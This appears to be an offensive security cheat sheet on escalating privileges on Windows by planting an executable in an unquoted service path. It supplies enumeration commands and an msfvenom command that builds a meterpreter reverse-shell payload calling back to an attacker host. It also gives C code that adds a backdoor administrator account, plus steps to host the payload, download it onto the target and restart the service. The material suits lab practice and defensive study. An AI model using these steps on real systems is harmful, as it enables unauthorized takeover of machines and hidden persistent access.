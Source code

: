 We can use this attack when we have write permissions to a service's main directory or subdirectories but cannot replace files within them.

Each Windows service maps to an executable file that will be run when the service is started. If the path of this file contains one or more spaces and is not enclosed within quotes, it is potentially vulnerable.
# Enumerate running services:
Powershell:
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```
CMD one-liner:
```batch
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```
# Enumerate File Permissions
Check every path with spaces to see if it's writeable. 

i.e. The following example unqouted service path: C:\Program Files\My Program\My Service\service.exe will have the following paths checked by windows:
* C:\Program.exe
* C:\Program Files\My.exe
* C:\Program Files\My Program\My.exe
* C:\Program Files\My Program\My service\service.exe

Thus the following folders need to be checked for (W) permissions:
* C:\Program Files
* C:\Program Files\My Program
* C:\Program Files\My Program\My service
```batch
icacls "C:\Path"
```
# Craft and place malicious exe in service path
Generate payload with msfvenom:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$(IP_ADDRESS) LPORT=$(PORT) -f exe -o service.exe
```
Or
Example malicious service to use:
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
On kali, cross-compile the service:
```batch
x86_64-w64-mingw32-gcc adduser.c -o service.exe
```
# Configure webserver to host file for transfer
```bash
python -m http.server 80
```
Remember to set up a listener (multi/handler for meterpreter - and remember to "set payload windows/x64/meterpreter/reverse_tcp") if the service payload is a revshell!

Transfer file to target machine at the vulnerable service path:
```powershell
iwr -uri http://$(IP_ADDRESS)/service.exe -Outfile "C:\Vulnerable\Service\Path.exe"
```
# Restart service
Either restart revice manually or reboot the target (assuming the service is set to automatic startup)
```batch
net stop $SERVICE
```
```batch
net start $SERVICE
```
```batch
shutdown /r /t 0
```
